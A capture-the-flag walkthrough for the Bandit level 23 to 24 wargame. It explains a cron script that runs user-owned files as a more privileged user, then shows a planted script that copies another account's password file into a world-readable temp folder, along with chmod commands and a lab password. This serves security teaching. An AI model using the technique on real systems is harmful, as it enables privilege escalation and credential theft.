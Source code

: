Level password: `0Zf11ioIjMVN551jX3CmStKLYqjk54Ga`

Same first step as the last 2 levels. But the bandit24 crontab script is different:

```sh
cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

Let's break down each part of the code:

```sh
for i in * .*;
```

This loops over each file within the current directory.

```sh
if [ "$i" != "." -a "$i" != ".." ];
```

This skips over files that's named `.` or `..`, which are important directories.

```sh
owner="$(stat --format "%U" ./$i)"
```

This gets the owner of the file to be executed name.

```sh
if [ "${owner}" = "bandit23" ]; then
	timeout -s 9 60 ./$i
fi
```

This checks whether the owner of the file is `bandit23`. If it is then it executes it. But it will timeout after 60 seconds.

```sh
rm -f ./$i
```

This force delete the current file being processed.

What we can extract from this script is that this crontab executes any files in the `/var/spool/current_username/foo/` and delete it. Specifically, for files that is owned by user *bandit23* (aka us), it would run the executable for 60 seconds then kill it. This means the script would run with the permissions of user *bandit24*. So we could create our own script and to read the password of bandit24 and write it into a file that we could access:

```sh
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/temp_dir/password.txt
```

Before we could do anything, we need to modify the permission so that the crontab could access the directory that houses the password file, the password file itself, and the permission of the script itself:

```sh
chmod +rx script.sh
chmod a+rwx /tmp/temp_dir
chmod +rw password.txt
```

Then we copy the script to the `/var/spool/bandit24/foo/` directory and wait for it to execute:

```sh
cp script.sh /var/spool/bandit24/foo/
```